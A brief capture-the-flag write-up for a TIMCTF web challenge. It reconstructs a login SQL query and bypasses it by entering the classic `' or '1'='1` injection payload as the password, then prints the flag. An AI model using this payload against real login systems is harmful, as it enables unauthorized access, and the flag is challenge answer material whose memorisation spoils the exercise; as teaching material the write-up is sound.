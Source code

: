 It takes email and password, so we can predict SQL query that verify login.

    SELECT * FROM `users` WHERE email='email' and password='password';

To make this query true, let's append additional string.

    SELECT * FROM `users` WHERE email='email' and password='password' or '1'='1';

And, just send `password' or '1'='1` for password!

![](Untitled-2bf5bc7a-a4d9-47a8-96c0-a8339be526c8.png)

> FLAG: TIMCTF{SqL\_1nj3ct1on\_1s\_b4ck\_1n\_town}